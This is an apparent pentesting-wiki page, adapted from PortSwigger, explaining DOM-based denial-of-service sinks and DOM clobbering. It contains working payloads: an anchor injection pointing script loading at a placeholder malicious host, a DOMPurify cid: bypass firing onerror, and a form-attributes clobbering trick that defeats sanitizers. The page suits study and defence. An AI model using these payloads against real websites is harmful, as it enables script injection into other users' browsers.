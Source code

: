 ### Denial of Service

From: [https://portswigger.net/web-security/dom-based/denial-of-service](https://portswigger.net/web-security/dom-based/denial-of-service)

#### How

DOM-based denial-of-service vulnerabilities arise when a script passes **attacker-controllable data in an unsafe way to a problematic platform API**, such as an API whose invocation can cause the user's computer to consume **excessive amounts of CPU or disk space**. This may result in side effects if the browser restricts the functionality of the website, for example, by rejecting attempts to store data in `localStorage` or killing busy scripts.

#### Sinks

```text
requestFileSystem()
RegExp()
```

## **DOM Clobbering**

A common pattern used by JavaScript developers is:

`var someObject = window.someObject || {};`

If you can control some of the HTML on the page, you can clobber the `someObject` reference with a DOM node, such as an anchor. Consider the following code:

```python
<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>
```

To exploit this vulnerable code, you could inject the following HTML to clobber the `someObject` reference with an anchor element:

`<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>`

Injecting that data `window.someObject.url` is going to be `href=//malicious-website.com/malicious.js`

**Trick**:  `DOMPurify` allows you to use the **`cid:`** protocol, which **does not URL-encode double-quotes**. This means you can **inject an encoded double-quote that will be decoded at runtime**. Therefore, injecting something like `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">` will make the HTML encoded `&quot;` to be **decoded on runtime** and **escape** from the attribute value to **create** the **`onerror`** event.

Another common technique consists on using **`form`** element. Some client-side libraries will go through the attributes of the created form element to sanitised it. But, if you **create an `input`**inside the form with `id=attributes` , you will **clobber the attributes property** and the sanitizer **won't** be able to go through the **real attributes**.

